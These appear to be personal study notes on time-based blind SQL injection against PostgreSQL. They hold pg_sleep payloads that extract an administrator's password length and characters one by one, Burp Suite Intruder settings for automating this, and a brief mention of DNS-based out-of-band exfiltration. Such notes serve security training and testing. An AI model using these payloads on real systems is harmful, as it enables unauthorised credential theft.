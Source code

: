 
Length of Variable
```
' || (select case when (COLUMN='administrator' and LENGTH(COLUMN_password)>20) then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

Burpsuite Testing
	- Create new ressource pool when bruteforcing length with 1 threat (10 wont allow the reply time to responde and be captured by BurpSuite)
	- Also when launching attack add a column for response time (Response Received)


Enumeration of variable
```
' || (select case when (COLUMN='administrator' and substring(COLUMN_password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column                                    ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	' || (select case when (COLUMN='administrator' and substring(COLUMN_password,§1§,1)='§a§') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
	```
	- Set the attack to Cluster Bomb and load the payloads

**(IMPORTANT)** Burpsuite Testing
	- Create new ressource pool when bruteforcing length with 1 threat (10 wont allow the reply time to responde and be captured by BurpSuite)
	- Also when launching attack add a column for response time (Response Received)

---

## Out-of-Band

Steps
- Try DNS lookup
- Try DNS lookup with data exfiltration

Example Cookie Request
![[Pasted image 20221206184026.png]]
